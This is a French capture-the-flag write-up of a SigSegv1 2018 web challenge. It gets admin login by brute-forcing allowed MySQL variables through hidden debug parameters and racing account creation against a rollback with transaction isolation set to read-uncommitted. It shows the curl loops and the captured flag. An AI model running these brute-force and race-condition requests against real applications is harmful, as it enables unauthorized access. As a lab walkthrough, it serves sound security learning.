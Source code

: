 #  SigSegv1 CTF 2018

**Category:** Misc/Web |
**Points:** 500 |
**Solves:** 1 |
**Description:**

> LOL mon pote dit qu'il peut se connecter en tant qu'admin sur mon app.
> Je le crois pas, mais avant d'accepter son challenge, est-ce que tu peux vérifier que c'est bon stp ?

___

## TL;DR


The game. Si t'as pas le temps de lire, reviens demain.

## WRITE-UP

* __Première étape__ : découvrir le chall.

Tout d'abord, on voit que le challenge possède seulement 2 pages:
\- Une page de création de compte (`/signUp`),
\- Une page de login (`/signIn`).

Premier test que j'ai fait : essayer de créer un compte :

```
>>> curl -s http://localhost:8000/signUp -d 'inputName=admin&inputPassword=perte'
{"error": "(u'User creation has been disabled, changes have been canceled.',)"}
```

Well, la création d'utilisateur a été désactivée.
On se dit que le but, ça va être de faire en sorte de pouvoir créer l'utilisateur qu'on veut.


* __Deuxième étape__ : allumer son cerveau

En regardant un peu les deux pages, je vois des commentaires :

```
<!--
30/11/18 - added a stored procedure to add users

BEGIN
    IF (select exists (select 1 from tbl_user where login = p_login)) THEN
        select 'Username exists!';
    ELSE
        START TRANSACTION;
        insert into tbl_user
        (
            login,
            password
        )
        values
        (
            p_login,
            p_password
        );
    END IF;
END$$
DELIMITER ;

--------------------------------------------------------------------------------

01/12/18 - my friend told me not to store passwords as plaintext...
Removed everything from the database and disabled persistence of changes in db until I fix this.
-->


******************


<!--

30/11/18 - added secret form parameters debugVar and debugVal to help debug the app.

-->
```

Ici, il y a deux choses importantes : 
\- les 2 paramètres que l'on peut rajouter,
\- le fait que l'admin a désactivé la persistance.

Le message est clair, il semblerait qu'il y ait un rollback qui soit fait.

En ayant ces informations, j'ai testé de faire une race condition en créant l'utilisateur `admin`,
puis me connecter directement juste après, avant que le rollback ne soit fait.
Mais dans ce cas, non seulement je ne me servais pas des paramètres donnés en commentaire, et puis
surtout ... ça ne fonctionnait pas :)




* __Troisième étape__ : utilisation des params + bruteforce

Ce step est assez simple.
J'ai récupéré une bonne partie des variables systèmes de MySQL : 
```
>>> curl -s 'https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html'| awk -F'[<>]' '/server-system.*class="literal/{!arr[$5]++}END{for (k in arr){print k}}' >> all_mysql_sysvar.lst
```

Ca fait une petite liste de presque 300 vars.
```
>>> curl -s http://localhost:8000/signIn -d 'inputName=admin&inputPassword=lel&debugVar=connect_timeout&debugVal=lel'
{"html": "<span>Forbidden variable name!</span>"}
```

Petite surprise, certaines sont interdites : j'ai donc "bruteforcé" pour connaître les vars autorisées.

```
>>> while read VAR; do curl -s http://localhost:8000/signIn -d "inputName=admin&inputPassword=lel&debugVar=$VAR&debugVal=lel" |grep -q Forbidden || echo $VAR ; done < all_mysql_sysvar.lst >> allowed_mysql_vars.lst
>>> wc -l allowed_mysql_vars.lst 
122 allowed_mysql_vars.lst
```

Bien, je me retrouve avec 122 variables à RTFM...
Avec l'idée du challenge, le `rollback`, ça permet de s'orienter vers certaines variables.


* __Dernière étape__ : payload + flag

Je vous invite à lire les liens suivants :
```
https://en.wikipedia.org/wiki/Isolation_(database_systems)
https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_transaction_isolation
https://inshallhack.org/production_debugging_sigsegv1_2018/
```

Le post de Siben sur inshallhack est génial, avec schématisation (wikipedia ¢) des dirty reads.

Après avoir bien RTFM, il ne reste plus qu'à créer le payload.
Ce qu'il faut faire :
\- Créer un user admin/admin,
\- Instantanément, il faut directement faire lire à la DB les changements non commités : `transaction_isolation -> read-uncommitted`,
\- Et on essaye de se connecter ensuite.

En BASH, ça donne simplement ça :

```
>>> while true ; do curl -s 'http://localhost:8000/signUp' --data 'inputName=admin&inputPassword=admin' & \
> curl -s 'http://localhost:8000/signIn' --data 'inputName=admin&inputPassword=admin&debugVar=transaction_isolation&debugVal=read-uncommitted' & \
> curl -s 'http://localhost:8000/signUp' --data 'inputName=admin&inputPassword=admin' ; done
```

Il suffit d'attendre un peu :

`{"gg": "GG! Flag: sigsegv{1s0l4t10n_mY_455}!"}`

* __Conclusion__ :

Un superbe challenge !
Personellement, j'avais jamais trop travaillé sur MySQL de façon approfondie, et j'ai appris
énormément de choses sur le fonctionnement d'une DB (MySQL).
Merci à toi SIben pour l'idée du challenge, de m'avoir fait confiance en me le faisant tester en
"avant-première", avant qu'il soit push sur le SigSev1 CTF.
Et surtout : the game.

Enjoy,<br>
\- [Notfound](https://twitter.com/Notfound404__)
